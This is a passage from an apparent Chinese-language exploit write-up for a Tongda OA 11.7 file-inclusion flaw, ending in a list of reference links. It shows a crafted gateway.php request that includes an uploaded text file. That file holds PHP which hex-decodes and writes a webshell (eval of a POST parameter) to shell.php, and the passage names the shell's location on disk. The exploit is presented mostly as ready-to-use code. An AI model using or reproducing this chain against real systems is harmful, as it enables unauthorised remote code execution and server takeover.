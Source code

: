 即可把txt文件上传到general目录下，然后payload包含即可rce

```
http://192.168.0.116/ispirit/interface/gateway.php?json=`{`"url":"/general/reportshop/workshop/report/attachment-remark/`}`_1.txt"`}`
```

前面疑问的方法暂时不知道为什么，可以直接包含txt然后写马

1.txt：

```
&lt;?php
$code = hex2bin('3C3F706870206576616C28245F504F53545B2761275D293B3F3E');
file_put_contents("shell.php",$code);
?&gt;
```

shell.php位于C:\oa\webroot\ispirit\interface\shell.php



## 参考资料

[https://www.anquanke.com/post/id/210395](https://www.anquanke.com/post/id/210395)

[https://paper.seebug.org/1499/](https://paper.seebug.org/1499/)

[https://p2hm1n.com/2021/03/06/%E9%80%9A%E8%BE%BE-OA-11-7-%E7%BB%84%E5%90%88%E6%8B%B3-RCE-%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/](https://p2hm1n.com/2021/03/06/%E9%80%9A%E8%BE%BE-OA-11-7-%E7%BB%84%E5%90%88%E6%8B%B3-RCE-%E5%88%A9%E7%94%A8%E5%88%86%E6%9E%90/)

[https://paper.seebug.org/1499/](https://paper.seebug.org/1499/)

[https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&amp;mid=2456098083&amp;idx=1&amp;sn=2585849a9fb521d690763357ac050894&amp;scene=21#wechat_redirect](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&amp;mid=2456098083&amp;idx=1&amp;sn=2585849a9fb521d690763357ac050894&amp;scene=21#wechat_redirect)
